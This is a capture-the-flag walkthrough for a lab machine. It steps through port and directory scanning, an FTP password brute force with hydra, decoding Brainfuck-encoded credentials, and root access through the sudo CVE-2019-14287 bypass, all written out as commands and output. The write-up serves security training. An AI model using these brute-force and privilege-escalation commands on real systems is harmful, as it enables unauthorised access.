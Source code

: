 1. Scan the machine

	$$ nmap -sV -sC 10.10.143.82 -oN nmap

	==> PORT   STATE SERVICE VERSION

		21/tcp open  ftp     vsftpd 3.0.2

		22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
		| ssh-hostkey: 
		|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
		|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
		|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
		|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)

		80/tcp open  http    Apache httpd 2.4.10 ((Debian))
		|_http-server-header: Apache/2.4.10 (Debian)
		|_http-title: Apache2 Debian Default Page: It works

		Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

2. Serach for hidden directories

	$$ gobuster dir -u http://10.10.143.82/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

	==> /assets               (Status: 301) [Size: 313] [--> http://10.10.143.82/assets/]


	## Check the '/assets' directory:

	==> Found: RickRolled.mp4 [Nothing Suspicious]
			   style.css      [Found a comment: /* Nice to see someone checking the stylesheets.Take a look at the 					page: /sup3r_s3cr3t_fl4g.php*/]


	## Check the '/sup3r_s3cr3t_fl4g.php' page:

	==> It redirects to youtube [get rid of redirection by burpsuit]:

			1. capture the request
			2. We found a hidden directory [GET /intermediary.php?hidden_directory=/WExYY2Cv-qU]
			3. Lastly found an image [Hot_Babe.png]

3. Enumerate the image

	$$ strings Hot_Babe.png

	==> Eh, you've earned this. Username for FTP is ftpuser
		One of these is the password:
		
	## We found the username for the ftp

	## save all text after line "One of these is the password:" in a 'wordlists.txt' file.

4. Enumerating FTP server

	$$ hydra ftp://10.10.143.82 -l ftpuser -P wordlist.txt -V -f

	==> Password: 5iez1wGXKfPKQ

		## login into ftp using:

		## User: ftpuser
		## password: 5iez1wGXKfPKQ


	## we found "Eli's_Creds.txt" file

	$$ cat "Eli's_Creds.txt"

	==> +++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
		--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
		++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
		+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
		]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
		++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
		--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
		+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
		++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
		<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
		<]>+. <+++[ ->--- <]>-- ---.- ----. <


		## This is a language called brainf*ck

	## Go to: https://www.dcode.fr/brainfuck-language

	==> User: eli
		Password: DSpDiM1wAEwid

5. SSH into machine

	$$ ssh eli@10.10.143.82 [Using the cracked password]

	## we can see a banner after login it says "Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

	$$ locate user.txt

	==> /home/gwendoline/user.txt

	$$ cat /home/gwendoline/user.txt

	==> cat: user.txt: Permission denied

	## So we have to escalate our privilages to get the user.txt


6. Horizontal Privilege Escalation

	## Acording to the Banner of ssh:

	$$ locate s3cr3t

	==> /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!

	$$ cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!

	==> Your password is awful, Gwendoline. 
		It should be at least 60 characters long! Not just MniVCQVhQHUNI
		Honestly!

		Yours sincerely
		   -Root

		## So login credentials are:

			* Username: gwendoline
			* Password: MniVCQVhQHUNI

	$$ su gwendoline [Use above password]

	==> we are now gwendoline user.


7. Vertical Privilege Escalation

	$$ sudo -l

	==> (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt	
                ||
                \/
	## this is a vulnerability (CVE-2019-14287)

	## This bug is fixed in Sudo version 1.8.28 [Check virsion: sudo -V]


	$$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

## We are now root...